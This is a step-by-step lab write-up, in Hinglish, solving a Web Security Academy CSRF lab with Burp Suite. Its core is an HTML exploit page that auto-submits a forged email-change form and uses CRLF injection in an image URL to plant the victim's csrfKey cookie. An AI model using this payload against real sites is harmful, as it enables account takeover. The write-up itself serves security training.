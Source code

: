 ## ✅ CSRF Lab Solution – Step-by-Step (Professional Format)

1. **Burp Suite start kiya** aur browser ko Burp ke sath intercept mode mein chala diya.

2. Lab ki website open ki aur **login page** par gaya.

3. `wiener:peter` credentials se login kiya.

4. Login hone ke baad **“Update email”** wale section mein gaya.

5. Wahan test ke liye ek naya email submit kiya:

   ```
   test@tesss.com
   ```

6. Burp Suite ke Proxy tab mein gaya aur **POST /my-account/change-email** wali request capture ki.

7. Is request se **`csrfKey` (cookie)** aur **`csrf` (form token)** copy kiye.

8. Uske baad **exploit server** open kiya aur **Body** section mein neeche wala HTML payload paste kiya:

   ```html
   <html>
     <body>
       <form action="https://0a34004b04b3113980fccbd8007800ab.web-security-academy.net/my-account/change-email" method="POST">
         <input type="hidden" name="email" value="sdasevil@sadevil.com">
         <input type="hidden" name="csrf" value="pB4M7BHMIn2hQROcR2z0OfnnwldxwoQz">
       </form>
       <img src="https://0a34004b04b3113980fccbd8007800ab.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=6LbtJoTyKY8c3VPKhrKwB6sB3Mmj2VMT%3b%20SameSite=None" onerror="document.forms[0].submit()">
     </body>
   </html>
   ```

9. Is payload mein:

   * `form action` aur `img src` dono mein **apna lab URL** use kiya.
   * Email field mein **nayi attacker email** dali: `sdasevil@sadevil.com`
   * Form ke CSRF field mein **`wiener` ka token** paste kiya.
   * Image tag ke andar `%0d%0aSet-Cookie` ke zariye **`wiener` ki csrfKey** inject ki.

10. Payload save kiya aur **“Deliver to victim”** button click kiya.

11. Result: Victim ka email change ho gaya aur **lab successfully solve** ho gaya. ✅
